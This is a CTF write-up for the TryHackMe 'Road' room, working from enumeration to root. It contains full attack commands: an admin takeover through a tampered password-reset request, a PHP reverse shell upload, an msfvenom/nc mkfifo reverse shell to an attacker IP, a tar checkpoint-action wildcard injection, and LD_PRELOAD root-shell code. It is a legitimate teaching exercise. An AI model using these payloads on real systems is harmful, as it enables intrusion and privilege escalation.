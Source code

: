 ```yaml
---
date: 2025-02-13
categories: [CTF, THM]
title: "THM - Road"
tags: ['gobuster', 'linux', 'linux setuid', 'nmap', 'privilege escalation', 'python', 'rce', 'reverse shell', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Road - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Road

NMAP

```bash
sudo nmap 10.10.79.100 -A
```

![image1](../resources/ed395c99dd32449aa81a2f2467a8a6c4.png)

- Directory scan:

```bash
gobuster dir -u http://10.10.79.100 -w /usr/share/seclists/Discovery/Web-Content/big.txt

```

![image2](../resources/82e700da08674d67895a5a588727f6e6.png)

- Registered an account and logged in  `http://10.10.54.102/v2/admin/login.html`


![image3](../resources/6e3779b9535040c7b71c85d7ddb77f1a.png)

- On the Profile page we can upload a file (but only admins can atm)

![image4](../resources/d8587e7e31214b9da68140be037cb31d.png)

- But found an admin email:
**admin@sky.thm**

- The only other button that works is the ResetUser button

![image5](../resources/9b034d03f1384e24820ec1ef12a29442.png)

- But looks like we can only reset our own password

- Open Burp and see if we can intercept the traffic

![image6](../resources/fc26e2830a574013925477485289ed05.png)


![image7](../resources/c1b982308e6049939558a4f40141e90d.png)

- Change the email to **admin@sky.thm** and send


![image8](../resources/86256cf6a2f04693a38699c40914103e.png)

- Got a 200 response code OK


![image9](../resources/049e417e9a6e44a0bf0acd3eb52a080c.png)

- Log in with admin@sky.thm


![image10](../resources/9d443c901bb4461f8bc8b9e6fd451bdd.png)

- If we now go to Profile and scroll to the bottom - we can upload a file


![image11](../resources/e1c3f363b5804e9b9ca5ba8465a10413.png)

- I jumped straight in with a **php_reverse_shell.php** - and uploaded it  
  It didn't give an error but didn't say successful either

- Set up nc:

```bash
rlwrap -cAr nc -lvnp 4445

```
- Inspecting the current profile picture

![image12](../resources/66bac46272ae427ba0e01bfbe7cd5333.png)

and trying to use that path to get a shell back - Failed

- Inspecting the profile page's source - showed a different path, that's been commented out
**/v2/profileimages/**


![image13](../resources/5d87c6111ad54c8db42d403728f7b492.png)

- Using that path  `http://10.10.54.102/v2/profileimages/php_reverse_shell.php`

- Got a shell

![image14](../resources/e40efe44a9e549338f837022047a55f2.png)

- Upgrade shell:

```bash
# In reverse shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

#Ctrl-Z

# In Kali
stty raw -echo
fg

# In reverse shell
export SHELL=bash
export TERM=xterm
stty cols 236 rows 59
alias ls='ls --color=auto'
reset
clear

#ENTER
#ENTER
```

- cat user flag

- Check what users are on the server:
```bash
getent passwd

```

![image15](../resources/c1719ba2e2dd48ee849222095bd72f18.png)

```bash
ss -tulpn

```

![image16](../resources/ed8f051894624a3ca803f51078778e05.png)

- Tried connecting to mysql

![image17](../resources/f06981d54c8d4fd3a2d371aeed1add92.png)

- Connected to mongo with no credentials

![image18](../resources/08020e0dd4cd44469b418fadb3ef6d35.png)


![image19](../resources/4b74c435bdd749fea81448e68cac8d93.png)


![image20](../resources/295fd00cfb6a4f059eb941a9a18be853.png)

- Got **webdeveloper : BahamasChapp123!@#**

- SSH with creds:

```bash
ssh webdeveloper@10.10.54.102

sudo -l

```

![image21](../resources/2306faba66b740b59bec38770b6ccd75.png)

```bash
id

```

![image22](../resources/47c5cce869a14a2794e5aae5f6f47d0d.png)

Tried sudo su as webdeveloper is in sudo group


![image23](../resources/c9e70ac1e0204bd0aef10ed58122caac.png)

sky_backup_utility is owned by root


![image24](../resources/0d095f391e9245b6a29a19885cea129e.png)

```bash
strings /usr/bin/sky_backup_utility

```

![image25](../resources/7081ddeac48341cca1ada3d1036fe9ed.png)

```bash
tar -czvf /root/.backup/sky-backup.tar.gz /var/www/html/
```

We can see that this is a backup script ELF file. So it must run regularly.

It backs up all of the contents in /var/www/html/**\*** to /root/.backup/sky-backup.tar.gz

We can exploit the wildcard **\*** to priv esc

- On KALI - Create a raw netcat reverse shell:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.8.24.66 lport=4444 R

```
- Copy the raw shell:

```bash
mkfifo /tmp/mzdqoeb; nc 10.8.24.66 4444 0</tmp/mzdqoeb | /bin/sh >/tmp/mzdqoeb 2>&1; rm /tmp/mzdqoeb

```
- Set up nc listener

```bash
rlwrap -cAr nc -lvnp 4444

```
- Go back to www-data shell

```bash
cd /var/www/html/

echo "mkfifo /tmp/mzdqoeb; nc 10.8.24.66 4444 0\</tmp/mzdqoeb \| /bin/sh \>/tmp/mzdqoeb 2\>&1; rm /tmp/mzdqoeb" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

tar cf archive.tar *

```

- Got a shell - but it's www-data - tried with webdeveloper as well but didn't get root

![image26](../resources/767d8ca5beb04d6db74420f98a4c866e.png)

- Looking at sudo -l again


![image27](../resources/daf51bfc2dfe458f9ec7de2add84f7e4.png)

- **env_keep+=LD_PRELOAD** is set
- And we can run a binary as sudo (/usr/bin/sky_backup_utility)

<https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/>


![image28](../resources/ecf14855710946f49d6dc536accc5b2e.png)


![image29](../resources/7dcd27de6359416e827c072e71770d72.png)

- Exploit LD_PRELOAD:
  - On webdeveloper shell

```bash
cd /tmp
nano shell.c
```

```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD"); // Prevent recursion
    setgid(0);              // Set group ID to root
    setuid(0);              // Set user ID to root
    system("/bin/sh");      // Spawn a root shell
}
```

![image30](../resources/7383a540efea442fa0a9923e8931221b.png)

Save file

- Compile c file:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls -al shell.so
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility  # Because we can execute /usr/bin/sky_backup_utility as root
```

- Got root shell

![image31](../resources/ea90e1f2f5674f818fcde6f56c1365cf.png)

```bash
cat root.txt

```